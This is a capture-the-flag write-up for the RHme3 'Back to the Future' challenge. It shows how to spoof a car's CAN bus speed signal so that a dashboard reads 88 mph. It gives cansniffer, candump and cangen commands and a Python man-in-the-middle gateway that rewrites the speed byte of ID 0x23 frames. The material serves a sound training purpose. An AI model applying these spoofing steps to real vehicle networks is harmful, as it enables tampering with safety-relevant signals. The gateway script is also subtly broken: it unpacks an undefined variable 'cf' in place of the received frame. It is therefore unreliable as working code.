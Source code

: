 # [Back to the Future](https://rhme.riscure.com/3/challenge?id=14)

Controller Area Network - 250pts

## Challenge text

Our intelligence suggests that the DeLorean we previously recovered is capable of time travel.
According to the documents in our possession the time travel functionality is activated as soon as a specific ECU within the vehicle maintains a velocity of exactly 88 miles per hour for at least a few seconds. We rely on your CAN bus expertise to trick the time-travel ECU into thinking it is travelling at the right speed; again, the vehicle dashboard we restored should be of use.

Best of luck.

The Dashboard app was available during the CTF.

Challenge developed by Argus Cyber Security.

## Solution

### Solution overview

The solution to this challenge involves identifying and rewriting CAN packets that indicate speed.  A CAN bridge will be needed to ensure that all packets are intercepted and rewritten.

### Preparation

If you haven't done so already, follow the [Beaglebone Black CAN preparation](../Preparation/BBB_CAN_setup.md) guide to get ready for working with CAN bus.

Make the following connections:
* For now, connect the two ECUs on the RHme3 board using jumpers.  We'll remove these later to separate the two channels.
* Connect one of the CAN transcievers on the Beaglebone Black to the RHme3 ECUs using twisted pair wiring.

![Single CAN Hookup](../Images/can_hookup_single.jpg)

Determine the serial port used for RHme3 board, then start up the Dashboard app:

	> cd rhme3dash-master; dashboard.py COM42
	$ cd rhme3dash-master; dashboard.py /dev/ttyUSB0

### Analysis

A quick analysis using cansniffer on the Beaglebone Black shows that the second data byte of CAN ID 23 seems to follow the movement of the dashboard speedometer.  In this case, 0x24 is 36 mph.

	$cansniffer -c can0
	23  00 24 08 02 20

Let's attempt to rewrite this as 88 mph (0x58) and feed it back using cangen:

	$ cangen -I 23 -L 5 -D 0058080220 -g 10 -x can0

This brings the speed up to 88 mph on the dashboard, but packets indicating lower speeds keep bringing it back down into the 30s of mph.  This confirms that we're using the right CAN ID and byte, but we need to do something about the lower speed packets that keep the indicated speed from being consistent.

Hypothesis: The two ECUs on the RHme3 board are acting as independant devices that are communicating with each other.  Maybe we can wedge a gateway between them, and use the gateway to intercept and rewrite any packets with CAN ID 23.

Make the following connections:
* Disconnect the two ECUs on the RHme3 board by removing the jumpers.
* Connect both of the CAN transcievers on the Beaglebone Black to the RHme3 ECUs using twisted pair wiring.  The connections should create two independant CAN buses: can0 on the Beaglebone Black connected to channel 1 on the RHme3 board, and can1 connected to channel 2.

![Double CAN Hookup](../Images/can_hookup_double.jpg)

With the two channels disconnected, traffic goes quiet.  With the use of candump, temporarily jumpering the two channels to create bursts of traffic, and monitoring each channel individually, the originating channel of CAN ID 23 can be determined as channel 1.

	$ candump -L can0
	$ candump -L can1

### Attack

Add the following script to the Beaglebone Black, as can-gate.py:

	#!/usr/bin/python3

	import socket
	import struct
	import sys

	s_in = socket.socket(socket.AF_CAN, socket.SOCK_RAW, socket.CAN_RAW)
	s_out = socket.socket(socket.AF_CAN, socket.SOCK_RAW, socket.CAN_RAW)
	s_in.bind((sys.argv[1],))
	s_out.bind((sys.argv[2],))

	while True:
		# Get a packet
		frame,addr = s_in.recvfrom(16)
		id,dlc,data = struct.unpack("=IB3x8s",cf)
		data = bytearray(data[:dlc])

		# If the packet is ID 0x23, rewrite the speed byte
		if (id == 0x23):
			data[1] = 0x58
			frame = struct.pack("=IB3x8s",0x23,dlc,data)

		# Send it to the other ECU channel
		try:
			s_out.send(frame)
		except socket.error:
			print('Error sending CAN frame')

Run the script as follows:

	$ python3 can-gate.py can0 can1

This passes all traffic from channel 1 to channel 2 and rewrites all packets with CAN ID 23 for 88 mph.  This pegs the dashboard at 88 mph and displays the flag.

![Back to the Future Dashboard with FLAG](../Images/future_dashboard.png)
